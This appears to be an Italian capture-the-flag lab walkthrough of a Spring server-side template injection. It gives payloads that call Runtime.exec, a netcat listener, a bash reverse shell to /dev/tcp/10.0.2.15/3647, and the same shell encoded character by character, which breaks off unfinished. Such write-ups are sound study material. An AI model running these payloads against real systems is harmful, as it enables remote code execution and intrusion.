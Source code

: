 Se te vai a questa directory http://10.10.11.170:8080/search dice esplicitamente che la  navbar ha un problema legato all'Injection.

1) Te hai provato SQLi però non funziona, probabilmente non ci sta un database
2) hai provato LFI con path trasversal però non ha funzionato 
3) Ora prova l'injection  che si basa su HTML.....
4) Ora proviamo SSTI (Server Side Template Injection): 

Digitiamo  #{7*7}   e ci da 47 quindi vuol dire che è vulnerabile ora cerchiamo di vedere se possiamo vedere i file :

- *{T(java.lang.Runtime).getRuntime().exec('whoami')} ------------------------------------------------## Process[pid=7799, exitValue="not exited"]
Ciò vuol dire che le espressione è basata su spring

1) Ora devo capire come far funzionare il comando dentro la funzione exec.
2) Molto probabilmente dovrò convertire ogni carattere in Unicode
3) Praticamente dopo un bel po di tentativi ho captito come costruire la stringa per sfruttare la vulnerabilità:
-  *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()
-  .exec(T(java.lang.Character).toString(<PrimocarattereUnicodedelcomando>)
-  .concat(T(java.lang.Character).toString(<SecondocarattereUnicodedelcomando>))
- ecc....
-  ).getInputStream())}

4) Questa dovrebbe essere la corretta sintassi poi riassembli  il tutto e hai fatto
5) Per convertire un carattere in Unicode basta che usi il questo script su python:
<Code Python>
lettera  = "r"
Unicodechar = str(ord(lettera))
print("La lettere in Unicode è :", Unicodechar)
</Code Python>

6) Prova a caricare una reverse shell, però prima avvia una porta di ascolto con Netcat:
comando:  nc -lvp 3647

7) Ora iniettiamo un codice reverse shell in bash quindi è questo lo script:
bash -i >& /dev/tcp/10.0.2.15/3647 0>&1

8) Portiamolo in Unicode:
-  *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()
-   .exec(T(java.lang.Character).toString(98)
-   .concat(T(java.lang.Character).toString(97))
-   .concat(T(java.lang.Character).toString(115))
-   .concat(T(java.lang.Character).toString(104))
-   .concat(T(java.lang.Character).toString(32))
-   .concat(T(java.lang.Character).toString(45))
-   .concat(T(java.lang.Character).toString(105))
-   .concat(T(java.lang.Character).toString(32))
-   .concat(T(java.lang.Character).toString(62))
-   .concat(T(java.lang.Character).toString(38))
-   .concat(T(java.lang.Character).toString(32))
-   .concat(T(java.lang.Character).toString(47))  
-   .concat(T(java.lang.Character).toString(100))
-   .concat(T(java.lang.Character).toString(101))
-   .concat(T(java.lang.Character).toString(118))
-   .concat(T(java.lang.Character).toString(47))
-   .concat(T(java.lang.Character).toString(116))
-   .concat(T(java.lang.Character).toString(99))
-   .concat(T(java.lang.Character).toString(112))
-   .concat(T(java.lang.Character).toString(47))
-   .concat(T(java.lang.Character).toString(49))
-   .concat(T(java.lang.Character).toString(48))
-   .concat(T(java.lang.Character).toString(46)) 
-   .concat(T(java.lang.Character).toString(48))
-   .concat(T(java.lang.Character).toString(46))
-   .concat(T(java.lang.Character).toString(50))